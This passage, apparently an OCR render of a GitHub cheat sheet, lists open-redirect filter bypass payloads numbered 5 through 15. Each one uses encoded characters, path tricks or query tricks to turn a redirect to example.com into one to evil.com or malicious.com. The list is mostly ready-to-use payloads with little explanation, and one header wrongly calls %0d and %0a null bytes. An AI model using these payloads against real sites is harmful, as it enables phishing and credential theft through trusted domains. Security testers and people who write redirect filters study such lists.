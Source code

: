```
?redirect=https://example.com → ?redirect=https:example.com
```

**5. Bypass Using %40 (At Symbol Encoding)**

```
?redirect=example.com → ?redirect=example.com%40evil.com
```

**6. Bypass if Only Checking for Domain Name**

```
?redirect=example.com → ?redirect=example.comevil.com
```

**7. Bypass Using Dot Encoding %2e**

```
?redirect=example.com → ?redirect=example.com%2eevil.com
```

**8. Bypass Using a Question Mark**

```
?redirect=example.com → ?redirect=evil.com?example.com
```

**9. Bypass Using Hash %23**

```
?redirect=example.com → ?redirect=evil.com%23example.com
```

**10. Bypass Using a Symbol**

```
?redirect=example.com → ?redirect=example.com/evil.com
```

**11. Bypass Using URL Encoded Chinese Dot %E3%80%82**

```bash
?redirect=example.com → ?redirect=evil.com%E3%80%82%23example.com
```

**12. Bypass Using a Null Byte %0d or %0a**

```
?redirect=/ → ?redirect=/%0d/evil.com
```

13. Encoded URL Redirects

```
https://example.com/redirect?url=http%3A%2F%2Fmalicious.com
```

14. Path-Based Redirects

```
https://example.com/redirect/http://malicious.com
```

15. Data URI Redirects
